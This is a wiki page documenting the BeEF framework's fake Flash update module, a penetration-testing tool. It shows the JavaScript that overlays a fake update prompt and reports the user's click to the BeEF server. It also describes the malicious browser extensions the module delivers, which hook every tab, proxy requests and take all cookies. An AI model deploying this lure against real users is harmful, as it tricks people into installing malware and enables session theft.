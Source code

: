 ## Summary

* **Description**: 
   * Prompts the user to install an update to Adobe Flash Player.The file to be delivered could be a Chrome or Firefox extension. 
   * A Chrome extension has privileged access and can do a whole lot.. 
       * Access all tabs and inject beef into all tabs
       * Use hooked browser as a proxy to do cross domain requests
       * Get all cookies including HTTPonly cookies
    * _Note_ : the Chrome extension delivery will work on Chrome <= 20. From Chrome 21 things changed in terms of how extensions can be loaded.
     * The Firefox extension is disabling PortBanning (ports 20,21,22,25,110,143), enabling Java, overriding the UserAgent and the default home/new_tab pages. See extensions/ipec/files/LinkTargetFinder dirrectory for the Firefox extension source.
* **Authors**: mh, antisnatchor
* **Browsers**: All (User is notified)
* **Parameters** :
  * **Splash Image** : Main image used for fake message (default is adobe reader logo)
  * **BeEF payload root path** : URL of the BeEF server should be here
  * **Payload** : Choose the payload (Chrome or Firefox)
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_flash_update)

## Internal Working

This module basically add a fake message in the center of the screen and redirect to the browser extension when the user clicks on it :

```javascript
var div = document.createElement('div');
div.setAttribute('id', 'splash');
div.setAttribute('style', 'position:absolute; top:30%; left:40%;');
div.setAttribute('align', 'center');
document.body.appendChild(div);
div.innerHTML= '<a href=\'' + payload + '\' ><img src=\''+ image +'\' /></a>';
    $j("#splash").click(function () {
      $j(this).hide();
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'answer=user has accepted');
    });
````

## Screenshots

_Command_ :
[[Images/module-fake-flash-update1.png|align=center]]

_Fake message_ :
[[Images/module-fake-flash-update2.png|align=center]]

_Error with Chrome  > 20_ :
[[Images/chrome-extensions.png|align=center]]

_Alert message on Firefox 17_ :
[[Images/module-fake-flash-update3.png|align=center]]

## Feedback

* Blocked with recent version of Chrome (> 20)
* It would be usefull to automatically detect if the browser is chrome or firefox and remove the payload option

## References

* [Adding extensions from other websites ](http://support.google.com/chrome_webstore/bin/answer.py?hl=en&answer=2664769&p=crx_warning)
